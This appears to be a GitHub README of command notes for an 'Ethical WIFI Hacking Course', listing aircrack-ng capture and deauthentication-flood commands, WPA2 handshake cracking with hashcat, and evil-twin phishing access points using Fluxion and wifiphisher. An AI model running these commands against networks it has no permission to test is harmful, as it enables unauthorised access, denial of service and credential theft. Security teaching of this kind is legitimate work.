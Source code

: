 ## 02. SNIFF WIFI Routers near you ｜｜ Episode 2 ｜｜ Ethical WIFI Hacking Course 2024
``` bash
airmon-ng start wlan0 # set your wifi interface to monitor mode 
airodump-ng wlan0mon # scan wifi around you 
airodump-ng --bssid <bssid> --channel <CH | channel_number> wlan0mon # monitor one particular wifi
airodump-ng --bssid <bssid> --channel <CH | channel_number> --write <name_of_file> wlan0mon # monitor one particular wifi
wireshark # open wireshark then open captured file <name_of_file>.cap

```

## 03. WIFI Jamming ｜｜ Episode 3 ｜｜ Ethical WIFI hacking course 2024
``` bash
airodump-ng --bssid <bssid> --channel <CH | channel_number> wlan0mon # monitor one particular wifi 
aireplay-ng  --deauth 20000 -a <bssid> -c <station> wlan0mon # this will send 20000 de-authenitcation packets to the <station> device
```

## 04. The MAC Address changer ｜ Episode 4 ｜ Ethical WIFI hacking course 2024

## 05. Cracking WPA2 WIFI password 40 times faster ｜ Episode  5 ｜ Ethical WIFI hacking course 2024
``` bash
# open airodump-ng and caprture handshake
airodump-ng --bssid <bssid> --channel <CH | channel_number> --write <name_of_file> wlan0mon # monitor one particular wifi
# goto to https://www.hashcat.net/cap2hashcat/
# convert your .cap file and download
# Download hashcat and ----------
hashcat -m 22000 -w 3 <hashcat_file> <word_list.txt> 
```

## 06. The EVIL Twin or Fake AP Attack to hack WIFI routers ｜ Episode 6 ｜ Ethical WIFI hacking  course 2024
``` bash
git clone https://github.com/FluxionNetwork/fluxion.git # clone this github directory 
cd fluxion
sudo ./fluxion.sh
sudo ./fluxion.sh -i # if the first command doesn't work 

```
## 07. Hack WIFI in 2 minutes？ ｜ Episode 7 ｜ Ethical WIFI hacking course 2024
``` bash
sudo apt install wifiphisher 
sudo wifiphisher
```

## 08. Crack WPA2 5ghz WiFi passwords ｜ Episode 8 ｜ Ethical WIFI Hacking Course 2024
``` bash
sudo iwlist wlan0 freq  # to find the frequency of your wifi card 

```
